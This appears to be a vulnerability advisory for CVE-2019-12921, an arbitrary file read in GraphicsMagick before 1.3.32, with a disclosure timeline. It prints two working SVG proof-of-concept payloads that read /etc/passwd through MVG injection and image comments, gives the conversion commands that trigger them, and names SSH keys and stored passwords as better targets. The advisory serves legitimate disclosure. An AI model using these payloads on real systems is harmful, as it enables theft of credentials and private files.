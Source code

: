 ```yaml
---
title: "Data Processing Libraries. Part II"
date: 2020-02-24T13:20:48+01:00
draft: true
---
```


# CVE-2019-12921
- Title:         Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32
- Scope:         http://hg.code.sf.net/p/graphicsmagick/code/
- Weakness:      Information Disclosure
- Severity:      High
- Date:          2019-06-24 12:21:30 +0000
- By:            @d4d

### Arbitary file read at TranslateTextEx GraphicsMagick before 1.3.32

Local file read vulnerability affects GraphicsMagick multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" 
	x="0" y="0" height="137px" width="137px"/></svg>
```

Function SetImageAttribute(Image *image,const char *key,const char *value) do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
`gm convert exploit.svg output.gif`
`gm convert exploit.svg output.jpeg`
Image attributes (comments section) will contains file contents.

### Timeline
- Reported to project maintainers: 6 Jun 2019
- Acknowledged: 6 June 2019
- Patched: 6 June 2019
- Released: 15 June 2019
- CVE Assigned: 20 June 2019
- Advisory confirmed by project maintainers: 20 June 2019

### Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to the ssh private keys used for host authentication or ssh private keys without a password are more useful.  Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.
